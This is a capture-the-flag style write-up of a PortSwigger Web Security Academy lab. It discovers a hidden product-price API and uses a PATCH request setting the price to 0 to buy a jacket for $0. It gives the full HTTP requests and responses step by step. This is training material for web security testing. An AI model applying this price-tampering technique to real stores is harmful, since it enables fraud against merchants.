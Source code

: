 # Lab: Finding and exploiting an unused API endpoint
To solve the lab, exploit a hidden API endpoint to buy a **Lightweight l33t Leather Jacket**. You can log in to your own account using the following credentials: `wiener:peter`.

#### Required knowledge

To solve this lab, you'll need to know:

- How to use error messages to construct a valid request.
- How HTTP methods are used by RESTful APIs.
- How changing the HTTP method can reveal additional functionality.

These points are covered in our API Testing Academy topic.

# Solution
Start by logging in and add the product "Lightweight l33t Leather Jacket" to the cart the problem get obvious. That the provided user don't have any store credit. So either adding credits or lowering the price should be the solution here.  
![](./img/Lab_2_Added_to_cart.png)


Checking the JavaScript of the application a function that reveals the ```/api``` endpoint is revealed.

![](./img/Lab_2_JS_API_discovered.png)

Sending a ```GET``` request to this endpoint retrieves the price and a message for the product.  
```http
GET /api/products/1/price HTTP/2
Host: 0a030094035e177080543a41003e0068.web-security-academy.net
Cookie: session=tJCobNoNtMVraBdNhaPQ1xKSc211NLX8
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a030094035e177080543a41003e0068.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 94

{"price":"$1337.00","message":"&#x1F525; 49 users have purchased this in the last 12 minutes"}
```


Testing to send a ```PATCH``` instead reveals a error message saying that ```Content-type: application/json``` is needed.  
```http
PATCH /api/products/1/price HTTP/2
Host: 0a030094035e177080543a41003e0068.web-security-academy.net
Cookie: session=tJCobNoNtMVraBdNhaPQ1xKSc211NLX8
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a030094035e177080543a41003e0068.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
```

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 93

{"type":"ClientError","code":400,"error":"Only 'application/json' Content-Type is supported"}
```


Sending a ```POST``` gives this response. The header ```Allow: GET, PATCH``` reveals that the ```PATCH``` method is allowed.
```http
POST /api/products/1/price HTTP/2
Host: 0a030094035e177080543a41003e0068.web-security-academy.net
Cookie: session=tJCobNoNtMVraBdNhaPQ1xKSc211NLX8
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a030094035e177080543a41003e0068.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Content-Length: 0
Content-Type: application/json

```

```http
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```


Making a ```PATCH``` request with an empty JSON body reveals a parameters that is needed.  
```http
PATCH /api/products/1/price HTTP/2
Host: 0a030094035e177080543a41003e0068.web-security-academy.net
Cookie: session=tJCobNoNtMVraBdNhaPQ1xKSc211NLX8
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a030094035e177080543a41003e0068.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Content-Length: 2
Content-Type: application/json

{}
```

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 77

{"type":"ClientError","code":400,"error":"'price' parameter missing in body"}
```


Sending a ```PATCH``` request with the JSON body ```"price": 0```
```http
PATCH /api/products/1/price HTTP/2
Host: 0a030094035e177080543a41003e0068.web-security-academy.net
Cookie: session=tJCobNoNtMVraBdNhaPQ1xKSc211NLX8
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a030094035e177080543a41003e0068.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Content-Length: 15
Content-Type: application/json

{
"price":0
}
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

{"price":"$0.00"}
```

And the price on the product gets changed. Now it's possible to purchase the jacket for $0.  
![](./img/Lab_2_New_price.png)


![](./img/Lab_2_new_price_cart.png)


![](./img/Lab_2_Solved.png)